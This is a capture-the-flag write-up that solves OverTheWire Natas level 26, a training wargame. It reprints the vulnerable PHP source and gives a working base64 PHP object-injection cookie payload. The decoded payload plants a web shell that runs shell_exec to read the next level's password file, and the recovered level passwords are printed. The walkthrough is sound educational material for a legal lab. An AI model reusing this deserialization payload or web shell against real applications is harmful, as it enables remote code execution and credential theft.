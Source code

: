 # Natas Level 25 → Level 26 PHP Deserialization Vulnerability

## Previous Flag
<b>cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE</b>

## Goal
Username: natas26<br>
URL: http://natas26.natas.labs.overthewire.org<br>

![alt text](/static/natas26.png "natas26 Input")
 
| Feature / Function             | `serialize()` / `unserialize()` | `json_encode()` / `json_decode()` | `JSON.stringify()` / `JSON.parse()` |
|-------------------------------|----------------------------------|-----------------------------------|--------------------------------------|
| Language(s)                   | PHP                              | PHP                               | JavaScript                           |
| Format                        | PHP-specific binary/text         | JSON (text-based)                 | JSON (text-based)                    |
| Cross-language compatible?    | No                               | Yes                               | Yes                                  |
| Preserves object types?       | Yes (includes class name)        | No (converts to stdClass/array)   | No (converts to plain object)        |
| Preserves methods?            | Yes (with class definition)      | No                                | No                                   |
| Readable?                     | No                               | Yes                               | Yes                                  |
| Use case                      | PHP-only persistence             | API communication, config, logs   | API communication, config, storage   |
| Security risks                | High (object injection possible) | Safer (no code execution)         | Safer (no code execution)            |

## What I learned
```
PHP magic methods similar to Python dunder method and C++ function override
string deserialized back into an object

Look for unserialize() calls and perform an object deserialization attack
```

## Solution
```
View source code
http://natas26.natas.labs.overthewire.org/index-source.html

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "<censored>" };</script></head>
<body>
<?php
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

    function showImage($filename){
        if(file_exists($filename))
            echo "<img src=\"$filename\">";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);
        imagedestroy($img);
    }

    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){

            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"],
                            $_GET["x2"], $_GET["y2"], $color);
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"])); 👀
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) &&
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) &&
                        array_key_exists("y2", $object)){

                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
                    }
        }
    }

    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form>

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
        $imgfile="img/natas26_" . session_id() .".png";
        drawImage($imgfile);
        showImage($imgfile);
        storeData();
    }
?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

# Obtain base64-encoded string
@trungdullc ➜ /workspaces/01noobHacker (main) $ php -d xdebug.mode=off scripts/natas26.php ⌨️
Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo2NToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbmF0YXMyNl9ianBqaWN0ZTYxcWRodnZtcGZyM3RhZGMwby5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=
# non-base64 encoded, Serialized Form
@trungdullc ➜ /workspaces/01noobHacker (main) $ echo -n ⌨️ "Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo2NToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbmF0YXMyNl9ianBqaWN0ZTYxcWRodnZtcGZyM3RhZGMwby5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=" | base64 -d
O:6:"Logger":2:{s:15:"LoggerlogFile";s:65:"/var/www/natas/natas26/img/natas26_bjpjicte61qdhvvmpfr3tadc0o.php"👀;s:15:"LoggerexitMsg";s:59:"<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";}

# In Browser replace drawing value
F12 → Application
Storage → Cookies

Name            Value
drawing       <replace_with_base64_below>
  Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo2NToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbmF0YXMyNl9ianBqaWN0ZTYxcWRodnZtcGZyM3RhZGMwby5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=

F5 (Refresh)
Fatal error: Uncaught Error: Cannot use object of type Logger as array in /var/www/natas/natas26/index.php:105 Stack trace: #0 /var/www/natas/natas26/index.php(131): storeData() #1 {main} thrown in /var/www/natas/natas26/index.php on line 105

Browser: http://natas26.natas.labs.overthewire.org/img/natas26_bjpjicte61qdhvvmpfr3tadc0o.php
u3RRffXjysjgwFU6b9xa23i6prmUsYne u3RRffXjysjgwFU6b9xa23i6prmUsYne u3RRffXjysjgwFU6b9xa23i6prmUsYne u3RRffXjysjgwFU6b9xa23i6prmUsYne u3RRffXjysjgwFU6b9xa23i6prmUsYne u3RRffXjysjgwFU6b9xa23i6prmUsYne u3RRffXjysjgwFU6b9xa23i6prmUsYne u3RRffXjysjgwFU6b9xa23i6prmUsYne 🔐
```

## Flag
<b>u3RRffXjysjgwFU6b9xa23i6prmUsYne</b>

## Continue
[Continue](/overthewire/Natas2627.md)